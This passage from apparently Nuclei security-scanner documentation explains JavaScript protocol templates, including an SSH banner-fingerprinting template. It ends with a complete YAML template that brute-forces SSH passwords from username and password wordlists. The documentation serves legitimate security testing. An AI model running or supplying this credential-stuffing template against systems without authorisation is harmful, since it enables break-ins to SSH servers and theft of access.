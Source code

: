 In the Nuclei template example above, we are fingerprinting SSH server software by connecting in non-auth mode and extracting the server banner. Let's break down the template.

### **Code Section**

The **`code:`** contains actual JavaScript code that is executed by Nuclei at runtime. In the above template, we are:

- Importing **`nuclei/ssh`** module/library
- Creating a new instance of **`SSHClient`** object
- Connecting to SSH server in **`Info`** mode
- Converting response to json

### **Args Section**

The **`args:`** section can be simply understood as variables in JavaScript that are passed at runtime and support DSL usage.

### **Output Section**

The value of the last expression is returned as the output of JavaScript protocol template and can be used in matchers and extractors. If the server returns an error instead, then the **`error`** variable is exposed in the matcher or extractor with an error message.

## **SSH Bruteforce Example**

**SSH Password Bruteforce Template**

```yaml
id: ssh-brute
info:  
  name: SSH Credential Stuffing  
  author: tarunKoyalwar  
  severity: critical  
  javascript:  
  - pre-condition: |      
      var m = require("nuclei/ssh");      
      var c = m.SSHClient();      
      var response = c.ConnectSSHInfoMode(Host, Port);      
      // only bruteforce if ssh server allows password based authentication      
      response["UserAuth"].includes("password")    
    code: |      
      var m = require("nuclei/ssh");      
      var c = m.SSHClient();      
      c.Connect(Host,Port,Username,Password);    
    args:      
      Host: "{{Host}}"      
      Port: "22"      
      Username: "{{usernames}}"      
      Password: "{{passwords}}"    
    threads: 10    
    attack: clusterbomb    
    payloads:      
      usernames: helpers/wordlists/wp-users.txt      
      passwords: helpers/wordlists/wp-passwords.txt    
    stop-at-first-match: true    
    matchers:      
      - type: dsl        
        dsl:          
          - "response == true"          
          - "success == true"        
        condition: and
```
